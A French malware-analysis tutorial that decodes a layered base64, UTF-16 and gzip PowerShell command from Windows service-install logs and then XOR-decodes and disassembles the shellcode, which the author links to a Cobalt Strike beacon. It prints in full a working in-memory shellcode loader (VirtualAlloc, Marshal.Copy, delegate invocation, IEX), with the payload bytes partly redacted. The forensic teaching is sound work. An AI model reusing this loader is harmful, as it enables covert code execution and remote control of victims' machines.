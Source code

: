 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

Rebelotte, décodons la chaîne en base 64 avec Python.

```python
>>> data = "H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDACTED]"

>>> base64.b64decode(data)
b'\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00\xadV\xefs\xda8\x13\xfe\x1c\xfe\n}\xc8\x8c\xed)P\x12ri\xe8Mf\xcao\xcc\x0b\x84\xc6$\xa1\xe5\x18F\xc821\x11\x16H\xb2\xc1\\\xfb\xbf\xbf+\x1bs\xf4\x9a\xbcog\xee2\xc3D\x96vW\xbb\xcf>\xbb+\x87\xaa\x82\xa3\x84OT\x9f\xbb\x14\x15\x1e\xa9\x90>\x0f\xd0e.w\xde\xe0\xb6B\xb7\xe8\x93\x91\xf3\xc2\x80(\xbd\xad\x17\xb3\x05U\xb3\xb5\xe0d\x86]WP)\xd1\x9f\xb9\xb3!\x16x\x85\xcc\xf3\x08\x8b\xd9\x8a\xbb!\xa3y\x94|hA\xea\x86\x82Zgg\xb9\xb3d+\x0c$\xf6\xe8,\xc0\xca\x8f\xe8lE\xd53w%\\dN\xaa\xebu\x83\xaf\xb0\x1fL?~\xac\x87B\xd0@\xa5\xdf\xc56UU)\xe9j\xce|*M\x0b}CO\xcfT\xd0\xc2\xdd|I\x89B\x7f\xa2\xf3Y\xb1\xcd\xf8\x1c\xb3\x83X\\\xc7\xe4\x19\x02\xaa\x06\xae>\xebq\x82u\x04Eg\xcd|e\x1a\x7f\xfcaX\x93\xc2\xc5\xb4\xd8\xdc\x84\x98I\xd3pb\xa9\xe8\xaa\xe82fX\xe8\xbb\xa5[REDACTED]'
```

Pas d'UTF-16 cette fois. En revanche, la chaîne est compressée. Dans le code Powershell obtenu, la chaîne est décodée puis décompressée <code>IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)</code>. Ce que nous allons donc reproduire avec notre chaîne fraîchement décodée .

```python
>>> zipped = io.BytesIO(base64.b64decode(data))
>>> f = gzip.GzipFile(fileobj=zipped)
>>> f.read()
b"Set-StrictMode -Version 2\n\n$DoIt = @'\nfunction func_get_proc_address {\n\tParam ($var_module, $var_procedure)\t\t\n\t$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')\n\t$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))\n\treturn $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))\n}\n\nfunction func_get_delegate_type {\n\tParam (\n\t\t[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,\n\t\t[Parameter(Position = 1)] [Type] $var_return_type = [Void]\n\t)\n\n\t$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])\n\t$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\t$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\n\treturn $var_type_builder.CreateType()\n}\n\n[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0[REDACTED]')\n\nfor ($x = 0; $x -lt $var_code.Count; $x++) {\n\t$var_code[$x] = $var_code[$x] -bxor 35\n}\n\n$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))\n$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)\n[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)\n\n$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))\n$var_runme.Invoke([IntPtr]::Zero)\n'@\n\nIf ([IntPtr]::size -eq 8) {\n\tstart-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job\n}\nelse {\n\tIEX $DoIt\n}\n"
```

Nous obtenons alors un script Powershell contenant encore une fois une donnée encodée en base 64. Cependant, une grande partie du code est lisible :

```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs7qHsDIvDAH2qoF6gi9RLcEuOP4uwuIuQbw1bXIF7bGF4HVsF7qHsHIvBFqC9oqHs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

Que fait ce script ? Grossomodo, alloue de la mémoire afin de pouvoir y stocker la chaîne encodée en base 64 et enfin l'exécuter. Une fois n'est pas coutume, décodons cette chaîne. Notons que la chaîne, une fois décodée est XORée avec 35.

Ce script est très utilisée notamment par les malwares afin d'envoyer un beacon CobaltStrike au serveur de contrôle - à savoir, pour lui envoyer les informations concernant la nouvelle machine tout juste infectée. Ce qui implique que dans notre dernière chaîne encodée/XORée, nous allons trouver un shellcode qui pourrait nous donner quelques informations utiles !

Une autre manière d'obtenir notre shellcode est d'exécuter la commande dans un terminale ISE :

```powershell
[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qH[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

Write-Output $var_code
```

Nous obtenons de cette manière une chaîne décimale, qu'on l'on va convertir en hexadécimal.

```
252 232 130 0 0 0 96 137 229 49 192 100 139 80 48 139 82 12 [REDACTED]

fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 [REDACTED]
```

# Désassembler le shellcode

Pour comprendre ce que fait notre shellcode, nous pouvons le désassembler avec shellen (https://github.com/merrychap/shellen).

![dsm_shellcode1.PNG](/img/decode-shellcode/dsm_shellcode1.PNG)

Les DLLs système occupent toujours la même adresse en mémoire. De cette manière, connaissant leurs emplacements, les shellcodes appellent directement les fonctions qui les interessent en chargeant dynamiquement les fonctions voulues. Il est alors facile de repérer certains patterns. Votre bible à cet instant, c'est la doc Microsoft !

![dsm_internet.PNG](/img/decode-shellcode/dsm_internet.PNG)
